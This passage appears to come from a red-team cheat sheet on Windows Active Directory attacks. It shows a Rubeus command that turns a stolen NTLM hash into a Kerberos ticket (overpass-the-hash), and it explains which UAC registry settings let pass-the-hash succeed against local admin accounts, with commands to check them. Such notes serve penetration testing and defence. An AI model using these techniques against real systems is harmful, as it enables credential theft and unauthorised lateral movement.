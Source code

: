 ```text
 # Overpass-the-Hash → Pass-the-Ticket
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

## Pass-the-Hash

### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

#### LocalAccountTokenFilterPolicy

* [LocalAccountTokenFilterPolicy](https://docs.microsoft.com/ru-ru/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`

If `LocalAccountTokenFilterPolicy` exists and set to `1` \(doesn't exist by default\), remote connections from **all** local admins are not affected by UAC and PtH will succeed:

```text
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" -Name LocalAccountTokenFilterPolicy
```

#### FilterAdministratorToken

* [FilterAdministratorToken](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1) - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken`

If `FilterAdministratorToken` exists and set to `1` \(doesn't exist by default\), builtin local admin account \(RID 500\) is affected by UAC and PtH will fail:

```text
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ -Name FilterAdministratorToken
```

